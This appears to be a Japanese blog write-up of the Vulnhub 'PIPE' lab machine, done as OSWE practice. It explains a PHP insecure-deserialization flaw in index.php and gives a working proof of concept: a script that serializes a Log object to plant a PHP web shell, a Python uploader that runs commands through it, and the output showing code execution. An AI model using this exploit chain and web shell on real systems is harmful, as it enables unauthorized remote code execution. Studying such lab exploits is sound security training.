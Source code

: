 ```yaml
---
layout: post
title:  "Writeup Vulnhub PIPE"
date:   2022-11-03 06:27:00 +0900
categories: security
---
```


※OSWEの練習のためにこのマシンに挑戦しているため、ソースコードが開示されているという前提に立っている。

# レポート
## サマリ
このマシンでは、ユーザー入力をデシリアライズしているためRCEが可能。

## RCE

問題のあるコードから一部抜粋。

**/var/www/html/log.php**

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    // snip

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

**/var/www/html/index.php**

```php
<?php
include 'info.php';
include 'log.php';

// snip

if (isset($_POST['param'])) {
    $info = unserialize($_POST['param']);
    if (strcasecmp($info->firstname, $artist->firstname) == 0 && strcasecmp($info->surname, $artist->surname) == 0){
        echo $artist->details;
    }
}

// snip
?>
```

index.phpではパラメータparamをデシリアライズしているため、class Logのデシリアライズ時に__destructがコールされ、書き込み権限を有する任意のディレクトリ配下のファイルに書き込みができる。これによりWeb Shellをアップロードすることができ、RCEが可能になる。

### PoC

**serialize.php**

```php
<?php
error_reporting(E_ERROR | E_PARSE);

class Log
{
    public $filename = '';
    public $data = '';
}

$log = new Log();
$log->filename = "/var/www/html/images/" . $argv[1];
$log->data = '<?php system($_GET["cmd"]);die; ?>';
echo(serialize($log))
?>
```

**poc.py**

```python
import requests
import subprocess
import sys

target_ip = sys.argv[1]
shell_file_name = "rce.php"

def serialize_param():
    print("[+] Serializing param")

    result = subprocess.run("php serialize.php %s" % shell_file_name, shell=True, capture_output=True)

    print("[+] Finished")
    return result.stdout.decode('utf-8')

def upload(param):
    print("[+] Uploading reverse shell")

    data = {
        'param': param
    }
    requests.post("http://%s/index.php" % target_ip, data=data, proxies={'http':'127.0.0.1:8080'})

    print("[+] Finished")

def rce(cmd):
    res = requests.get("http://%s/images/%s" % (target_ip, shell_file_name), params={'cmd':cmd})
    print(res.text)

if __name__ == '__main__':
    param = serialize_param()
    upload(param)
    rce(sys.argv[2])
```

**command**

```sh
python3 poc.py [TARGET_MACHINE_IP] id
```

**result**

```
[+] Serializing param
[+] Finished
[+] Uploading reverse shell
[+] Finished
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
